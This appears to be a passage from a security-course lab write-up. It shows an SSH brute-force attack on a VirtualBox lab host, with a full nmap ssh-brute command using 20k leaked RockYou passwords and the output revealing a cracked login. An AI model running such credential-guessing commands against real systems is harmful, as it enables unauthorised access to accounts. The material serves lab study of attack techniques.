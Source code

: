 ![pass](https://raw.githubusercontent.com/LukasForst/BSY/master/bonus/assets/rockyou.png)

20k passwords from [RockYou](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Leaked-Databases/rockyou-60.txt) database! Let's go then.

```bash
sudo nmap -v -n -sS -sV 192.168.1.127 -p 22 --script ssh-brute --script-args userdb=users,passdb=20k.txt,unpwdb.timelimit=0,brute.firstonly=true
```

And after 3 hours...
```
Completed NSE at 20:28, 10904.94s elapsed
Initiating NSE at 20:28
Completed NSE at 20:28, 0.00s elapsed
Nmap scan report for 192.168.1.127
Host is up (-0.17s latency).

PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
| ssh-brute: 
|   Accounts: 
|     grace:donaldduck - Valid credentials
|_  Statistics: Performed 22081 guesses in 10904 seconds, average tps: 1.8
MAC Address: 08:00:27:06:8F:03 (Oracle VirtualBox virtual NIC)
```
